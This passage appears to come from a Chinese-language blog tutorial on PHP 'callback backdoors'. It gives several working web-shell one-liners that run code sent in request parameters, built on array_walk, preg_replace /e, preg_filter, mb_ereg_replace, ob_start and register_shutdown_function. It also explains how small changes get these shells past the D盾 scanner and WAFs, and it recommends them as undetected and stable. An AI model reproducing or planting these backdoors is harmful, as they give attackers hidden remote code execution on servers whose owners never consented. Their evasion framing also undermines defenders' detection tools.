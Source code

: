 
php中，可以执行代码的函数：

1.  一个参数：'''assert'''
2.  两个参数：'''assert （php5.4.8+'''）
3.  三个参数：'''preg_replace /e模式'''
三个参数可以用'''preg_replace'''。所以我这里构造了一个'''array_walk'''+ '''preg_replace'''的回调后门：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk($arr, $e, '');

如图，这个后门可以在5.3下使用：


但强大的D盾还是有警觉（虽然只是等级2）：

不过呵呵，PHP拥有那么多灵活的函数，稍微改个函数（'''array_walk_recursive'''）D盾就查不出来了：

    $e = $_REQUEST['e'];
    $arr = array($_POST['pass'] => '|.*|e',);
    array_walk_recursive($arr, $e, '');

不截图了。

看了以上几个回调后门，发现preg_replace确实好用。但显然很多WAF和顿顿狗狗的早就盯上这个函数了。其实php里不止这个函数可以执行eval的功能，还有几个类似的：

    mb_ereg_replace('.*', $_REQUEST['pass'], '', 'e');

另一个：

    echo preg_filter('|.*|e', $_REQUEST['pass'], '');

这两个一句话都是不杀的：

好用的一句话，且用且珍惜呀。

0x05 无回显回调后门

回调后门里，有个特殊的例子：ob_start。

ob_start可以传入一个参数，也就是当缓冲流输出时调用的函数。但由于某些特殊原因（可能与输出流有关），即使有执行结果也不在流里，最后也输出不了，所以这样的一句话没法用菜刀连接：

    ob_start('assert');
    echo $_REQUEST['pass'];
    ob_end_flush();

但如果执行一个url请求，用神器cloudeye还是能够观测到结果的：


即使没输出，实际代码是执行了的。也算作回调后门的一种。

0x06 单参数后门终极奥义

'''preg_replace'''、三参数后门虽然好用，但/e模式php5.5以后就废弃了，不知道哪天就会给删了。所以我觉得还是单参数后门，在各个版本都比较好驾驭。 这里给出几个好用不杀的回调后门

    $e = $_REQUEST['e'];
    register_shutdown_function($e, $_REQUEST['pass']);

这个是php全版本支持的，且不报不杀稳定执行：


再来一个：
